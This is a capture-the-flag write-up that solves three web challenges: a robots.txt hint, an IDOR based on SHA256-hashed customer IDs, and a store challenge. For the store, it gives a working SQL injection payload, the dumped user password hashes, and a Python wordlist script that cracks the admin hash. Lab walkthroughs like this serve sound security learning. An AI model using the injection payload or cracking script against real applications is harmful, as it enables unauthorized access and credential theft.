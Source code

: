 ### All about robots
On the giving web page, taking chall name as hint, if we go to *robots.txt end point, we see a disallowed html page. Going to that endpoint, we find the flag

### IDoor
Going to the webpage, we see the customer id is 11. Further when we see the url, the endpoint looks like an encoded string. SHA256 decoding the string gives us the value 11 that is equal to the
custoer id. With a bit of trial and error, by sha256 encoding different integers, we finally get a hit on 0, and the flag is obtained

### Hacker web store
We have been given a products page, a creation page and a passwords list. Wehn we try sql inputs in the creation page, we see the app is vulnerable to sql injection and the error message showed the structure of the insertion command. Using that we can craft a payload like:
```
1') , ('Product2', (SELECT name FROM users LIMIT 1 OFFSET 0), 'Description3
```
Here lmit means only 1 row printed, and choosing different offsets to get all the users we get 3 users and their password hashes:
```
Joram : pbkdf2:sha256:600000$m28HtZYwJYMjkgJ5$2d481c9f3fe597590e4c4192f762288bf317e834030ae1e069059015fb336c34
James : pbkdf2:sha256:600000$GnEu1p62RUvMeuzN$262ba711033eb05835efc5a8de02f414e180b5ce0a426659d9b6f9f33bc5ec2b
website_admin_account : pbkdf2:sha256:600000$MSok34zBufo9d1tc$b2adfafaeed459f903401ec1656f9da36f4b4c08a50427ec7841570513bf8e57
```
We need to login using the admin account by cracking its password hash<br>
From a writeup, got this script:
```
from werkzeug.security import _hash_internal
import sys

def generate_password_hash(password, method="pbkdf2:sha256:600000"):
    salt = "MSok34zBufo9d1tc"
    h, actual_method = _hash_internal(method, salt, password)
    return "%s$%s$%s" % (actual_method, salt, h)

f = open("pass.txt", "r")
o = open("crack-admin.txt", "w")

for x in f:
   hash = generate_password_hash(x.strip(),method='pbkdf2:sha256:600000')
   a = f"{x.strip()} {hash}"
   o.write(a)
   print(x.strip())
   if hash == "pbkdf2:sha256:600000$MSok34zBufo9d1tc$b2adfafaeed459f903401ec1656f9da36f4b4c08a50427ec7841570513bf8e57":
       print(f"{x.strip()} found password")
       sys.exit()
o.close()
```
```
ntadmin1234 found password
```
We can login now with website_admin_account:ntadmin1234 and get our flag

###

###

###
